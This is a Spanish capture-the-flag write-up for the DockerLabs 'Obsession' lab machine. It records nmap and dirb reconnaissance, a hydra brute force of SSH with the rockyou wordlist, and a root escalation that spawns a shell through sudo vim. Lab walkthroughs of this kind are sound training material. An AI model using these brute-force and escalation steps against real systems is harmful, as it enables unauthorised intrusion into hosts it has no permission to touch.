





# Obsession - DockerLab

Plataforma:** DockerLabs

**IP objetivo:** 172.17.0.2

**Dificultad:** Very easy

---
## Recon

### Reconocimiento de hosts

```bash
arp-scan -I eth0 --localnet
```

### Escaneo de puertos

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



|Puerto|Servicio|
|---|---|
|21|FTP|
|22|SSH|
|80|HTTP|

### Puerto 80

Abrimos puerto 80 a través del navegador:



Encontrada web `The Aesthetic Dream`.

### Código fuente



Encontramos comentario interesante.

**Nombre de usuario:** `russoski`

### Searchsploit

```bash
searchsploit vsftpd 3.0.5
searchsploit openssh 9.6p1
searchsploit Apache 2.4.58
```



Encontramos exploits disponibles para la versión de Apache detectada.

### Fuzzing dirb

```bash
dirb http://172.17.0.2
```



Encontrados 2 subdirectorios.

#### /important


Lleva a un manifiesto hacker sin nada relevante.

#### /backup


Volvemos a encontrarnos con el usuario `russoski`.

## Vulns

- Credenciales SSH débiles del usuario `russoski`, expuesto mediante código fuente HTML y directorio `/backup`.
- Privilegio sudo mal configurado sobre `vim`, explotable vía GTFOBins para escalada a root.

## Xploit

### Fuerza bruta SSH

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


**Contraseña:** `iloveme`

### Conexión SSH

```bash
ssh russoski@172.17.0.2
```


Tenemos shell.

## Privesc

```bash
sudo -l
```


```bash
sudo vim -c ':!/bin/sh'
```


Somos root.
